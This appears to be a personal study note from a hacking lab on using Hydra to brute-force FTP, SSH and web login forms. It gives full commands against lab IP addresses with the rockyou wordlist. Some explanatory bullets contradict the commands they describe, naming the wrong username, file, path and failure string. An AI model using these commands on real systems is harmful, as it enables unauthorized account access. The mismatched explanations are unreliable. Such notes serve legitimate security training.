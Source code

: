 ## Introduction
- Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.
- Hydra can run through a list and “brute force” some authentication services.
- Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

## Installing Hydra
```python
apt install hydra
```

## Hydra Commands

- The options we pass into Hydra depend on which service (protocol) we’re attacking.

**Example** - 
if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:
```python
hydra -l user -P passlist.txt ftp://10.10.162.94
```

### SSH
```python
hydra -l <username> -P <full path to pass> 10.10.162.94 -t 4 ssh
```

![[hydra1.png]]

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 -t 4 ssh
```
- Hydra will use `root` as the username for `ssh`
- It will try the passwords in the `passwords.txt` file
- There will be four threads running in parallel as indicated by `-t 4`

#### SSH to account
```python
ssh molly@10.10.162.94
```
### Post Web Form
- We can use Hydra to brute force web forms too.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```python
sudo hydra <username> <wordlist> 10.10.162.94 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
![[hydra2.png]]

#### Below is a more concrete example of Hydra command to brute force a POST login form:
```python
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.2.70 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 
```
- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```